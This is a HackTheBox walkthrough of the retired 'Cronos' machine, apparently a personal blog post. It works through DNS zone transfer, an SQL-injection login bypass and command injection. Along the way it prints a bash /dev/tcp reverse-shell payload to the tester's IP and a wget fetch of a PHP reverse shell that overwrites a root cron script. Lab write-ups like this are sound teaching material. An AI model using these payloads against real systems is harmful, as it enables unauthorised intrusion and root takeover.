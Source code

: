```yaml
---
title: Cronos - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-24 12:00:00 
categories: [HackTheBox,Linux]
tags: [dns,zone transfer,sqli,pspy]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Cronos/00-banner.png
  width: 595
  height: 377
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Cronos` a retired linux machine from HackTheBox rated medium. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Sat Oct 23 06:45:17 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.241.243
Nmap scan report for 10.129.241.243
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 23 06:45:42 2021 -- 1 IP address (1 host up) scanned in 25.24 seconds
```
Three ports are open: `22:ssh`,`53:domain` and `80:http`.
## Port 53 - domain
DNS service is running on the victim machine. We can try for a `dns zone transfer` and if we succeed may get some subdomains of the domain `cronos.htb`.

```console
$ dig @10.129.241.243 axfr cronos.htb
; <<>> DiG 9.16.15-Debian <<>> @10.129.241.243 axfr cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.129.241.243
admin.cronos.htb.	604800	IN	A	10.129.241.243
ns1.cronos.htb.		604800	IN	A	10.129.241.243
www.cronos.htb.		604800	IN	A	10.129.241.243
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 120 msec
;; SERVER: 10.129.241.243#53(10.129.241.243)
;; WHEN: Sat Oct 23 06:51:42 -05 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

![01-dig](/assets/img/HTB/Cronos/01-dig.png)

We got **three new subdomains** namely `admin.cronos.htb`, `ns1.cronos.htb`  and `www.cronos.htb`. Added these domains to my `/etc/hosts` file.
```console
$ sudo echo "10.129.241.243 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb" >> /etc/hosts
```

## HTTP Enumeration
### Cronos.htb
Hitting `http://cronos.htb` lead to a page with some links to a external site.

![02-web](/assets/img/HTB/Cronos/02-web.png)

Also `gobuster` no returns any interesting directory or file.

## admin.cronos.htb

The next domain to enumerate is `admin.cronos.htb`, it's a login page which the common credentials(`admin/admin`,`admin/cronos`,etc) didn't work

![03-web](/assets/img/HTB/Cronos/03-web.png)

But, good old sqli nothing beats that.
`admin' or 1=1-- -`

![04-sqli](/assets/img/HTB/Cronos/04-sqli.png)

After bypass the login, we are presented with a page that is vulnerable to a command injection.

![05-whoami](/assets/img/HTB/Cronos/05-whoami.png)

With the next input we can get a reverse shell on our netcat listener port:

```plaintext
localhost | bash -c "bash -i >& /dev/tcp/10.10.14.34/443 0>&1"
```

![06-shell](/assets/img/HTB/Cronos/06-shell.png)

To upgrade the shell:
```console
$ python -c "import pty;pty.spawn('/bin/bash')"
$ ^Z
$ stty raw -echo; fg
$   reset
$ export TERM=xterm
$ export TERM=bash
```

# Privilage Escalation
I didn't find anything useful with `sudo -l` or searching SUID files, that's why I decided use [pspy](https://github.com/DominicBreuker/pspy/releases) to monitor the processes running on the machine.

![07-pspy](/assets/img/HTB/Cronos/07-pspy.png)

It seems that root is executing a php file named `artisan` periodically, let's replace it with a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
$ wget http://10.10.14.34/php-reverse-shell.php
$ cat php-reverse-shell.php > artisan
```
Once we tranfered the file and changed the content of artisan, we recived a shell as root!!!

![08-root](/assets/img/HTB/Cronos/08-root.png)

That’s it for now guys. Until next time.
